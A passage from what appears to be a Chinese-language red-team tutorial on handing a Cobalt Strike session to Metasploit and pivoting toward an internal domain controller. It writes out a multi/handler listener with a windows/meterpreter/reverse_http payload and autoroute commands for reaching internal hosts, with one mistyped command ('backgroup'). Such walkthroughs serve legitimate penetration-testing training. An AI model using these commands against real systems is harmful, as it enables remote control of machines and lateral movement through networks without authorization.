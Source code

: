 ### 2.2.1. CS转发MSF上线

在上篇文章中已经介绍CS转发MSF上线了，这里就不提了，直接看操作，也不介绍了。

#### 2.2.1.1. 案例操作

注意这里一定要先run，然后CS再进行操作，不然容易监听不起来。

```
CS：新建会话，会话选择监听的那个MSF，也可以使用命令：spawn msf
MSF：设置监听
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost 0.0.0.0
set lport 3010
run
```

![image-20230730071648343](assets/image-20230730071648343.png)

#### 2.2.1.2. 添加路由

由于域控是在内网中，所以需要给会话添加一个相应的路由，这样MSF就能够连接域内主机。

```
run autoroute -p ##查看当前路由表
run post/multi/manage/autoroute ##添加当前路由表
backgroup ##返回
```
